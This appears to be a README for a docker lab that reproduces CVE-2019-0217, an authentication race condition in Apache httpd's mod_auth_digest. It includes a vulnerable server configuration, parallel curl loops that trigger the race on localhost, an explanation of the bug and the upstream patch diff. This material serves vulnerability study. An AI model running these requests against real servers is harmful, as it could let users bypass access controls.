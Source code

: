 # CVE-2019-0217

## Description

In Apache HTTP Server 2.4 release 2.4.38 and prior, a race condition in mod_auth_digest when running in a threaded server could allow a user with valid credentials to authenticate using another username, bypassing configured access control restrictions.

## Setup

1. In the [vuln-httpd](vuln-httpd) directory, the docker-compose file is present, which will setup the vulnerable Apache HTTP Server.

2. There are a couple important points to note (important, rest is in [httpd.conf](vuln-httpd/httpd.conf)):
    1. The server is running on a threaded server, using the mpm_event module.

    ```apache
        LoadModule mpm_event_module modules/mod_mpm_event.so
        LoadModule cgid_module modules/mod_cgid.so # as it is required by mpm_event
        <IfModule mpm_event_module>
            StartServers             2
            MinSpareThreads         25
            MaxSpareThreads         75
            ThreadLimit             64
            ThreadsPerChild         25
            MaxRequestWorkers      150
            MaxConnectionsPerChild   0
        </IfModule>
        ```

    2. The server is configured to use mod_auth_digest for authentication.

        ```apache
        LoadModule authn_file_module modules/mod_authn_file.so
        LoadModule authn_core_module modules/mod_authn_core.so
        LoadModule authz_host_module modules/mod_authz_host.so
        LoadModule authz_user_module modules/mod_authz_user.so
        LoadModule authz_core_module modules/mod_authz_core.so
        LoadModule auth_digest_module modules/mod_auth_digest.so
        LoadModule alias_module modules/mod_alias.so
        LoadModule mime_module modules/mod_mime.so
        ```

    3. We have setup a protected endpoint, and created two users with username:pasword `test:test` and `test2:test2`

        ```apache
        <Directory "/usr/local/apache2/htdocs/cgi-bin">
            AllowOverride None
            Options +ExecCGI
            AuthType Digest
            AuthName "protected-area"
            AuthDigestProvider file
            AuthUserFile "/usr/local/apache2/conf/digest_passwd"
            Require valid-user
        </Directory>
        ```

3. Build & run the project with docker

    ```bash
    docker-compose up --build
    ```

4. The server is running on `http://localhost:8080`

## Exploit

Basically the exploit is to send two requests simultaneously, and what happens is that sometimes the realmhash of one user is used to authenticate another user.

```bash
while true
do
    curl -u test2:test2 --digest "http://localhost:8080/cgi-bin/mycgi.cgi"
done
```

```bash
while true
do
    curl -u test:test --digest "http://localhost:8080/cgi-bin/mycgi.cgi"
done
```

And sometimes we'll get a 401 error which will indicate that the race condition was triggered.

## Explanation

The bug occured a the hash was not stored per request, this it was susceptible to a race condition. This was reported in the [Apache Bugzilla](https://bz.apache.org/bugzilla/show_bug.cgi?id=63124) and was fixed and backported to 2.4 in 2.4.39.

The patch which fixed this essentially moved the ha1 to digest_header_rec, which is request specific, and thus the vulnerability was fixed.


<details>
<summary>Patch</summary>

```diff
--- httpd-2.4.37/modules/aaa/mod_auth_digest.c	2019-01-29 11:05:15.603614489 +0100
+++ httpd-2.4.37.new/modules/aaa/mod_auth_digest.c	2019-01-29 11:06:24.587102281 +0100
@@ -92,7 +92,6 @@
     int          check_nc;
     const char  *algorithm;
     char        *uri_list;
-    const char  *ha1;
 } digest_config_rec;
 
 
@@ -153,6 +152,7 @@
     apr_time_t            nonce_time;
     enum hdr_sts          auth_hdr_sts;
     int                   needed_auth;
+    const char           *ha1;
     client_entry         *client;
 } digest_header_rec;
 
@@ -1304,7 +1304,7 @@
  */
 
 static authn_status get_hash(request_rec *r, const char *user,
-                             digest_config_rec *conf)
+                             digest_config_rec *conf, char **rethash)
 {
     authn_status auth_result;
     char *password;
@@ -1356,7 +1356,7 @@
     } while (current_provider);
 
     if (auth_result == AUTH_USER_FOUND) {
-        conf->ha1 = password;
+        *rethash = password;
     }
 
     return auth_result;
@@ -1483,25 +1483,24 @@
 
 /* RFC-2069 */
 static const char *old_digest(const request_rec *r,
-                              const digest_header_rec *resp, const char *ha1)
+                              const digest_header_rec *resp)
 {
     const char *ha2;
 
     ha2 = ap_md5(r->pool, (unsigned char *)apr_pstrcat(r->pool, resp->method, ":",
                                                        resp->uri, NULL));
     return ap_md5(r->pool,
-                  (unsigned char *)apr_pstrcat(r->pool, ha1, ":", resp->nonce,
-                                              ":", ha2, NULL));
+                  (unsigned char *)apr_pstrcat(r->pool, resp->ha1, ":",
+                                               resp->nonce, ":", ha2, NULL));
 }
 
 /* RFC-2617 */
 static const char *new_digest(const request_rec *r,
-                              digest_header_rec *resp,
-                              const digest_config_rec *conf)
+                              digest_header_rec *resp)
 {
     const char *ha1, *ha2, *a2;
 
-    ha1 = conf->ha1;
+    ha1 = resp->ha1;
 
     a2 = apr_pstrcat(r->pool, resp->method, ":", resp->uri, NULL);
     ha2 = ap_md5(r->pool, (const unsigned char *)a2);
@@ -1512,6 +1511,7 @@
                                                resp->cnonce, ":",
                                                resp->message_qop, ":", ha2,
                                                NULL));
+
 }
 
 
@@ -1767,7 +1767,7 @@
         return HTTP_UNAUTHORIZED;
     }
 
-    return_code = get_hash(r, r->user, conf);
+    return_code = get_hash(r, r->user, conf, &resp->ha1);
 
     if (return_code == AUTH_USER_NOT_FOUND) {
         ap_log_rerror(APLOG_MARK, APLOG_ERR, 0, r, APLOGNO(01790)
@@ -1797,7 +1797,7 @@
 
     if (resp->message_qop == NULL) {
         /* old (rfc-2069) style digest */
-        if (strcmp(resp->digest, old_digest(r, resp, conf->ha1))) {
+        if (strcmp(resp->digest, old_digest(r, resp))) {
             ap_log_rerror(APLOG_MARK, APLOG_ERR, 0, r, APLOGNO(01792)
                           "user %s: password mismatch: %s", r->user,
                           r->uri);
@@ -1827,7 +1827,7 @@
             return HTTP_UNAUTHORIZED;
         }
 
-        exp_digest = new_digest(r, resp, conf);
+        exp_digest = new_digest(r, resp);
         if (!exp_digest) {
             /* we failed to allocate a client struct */
             return HTTP_INTERNAL_SERVER_ERROR;
@@ -1911,7 +1911,7 @@
 
         /* calculate rspauth attribute
          */
-        ha1 = conf->ha1;
+        ha1 = resp->ha1;
 
         a2 = apr_pstrcat(r->pool, ":", resp->uri, NULL);
         ha2 = ap_md5(r->pool, (const unsigned char *)a2);
```
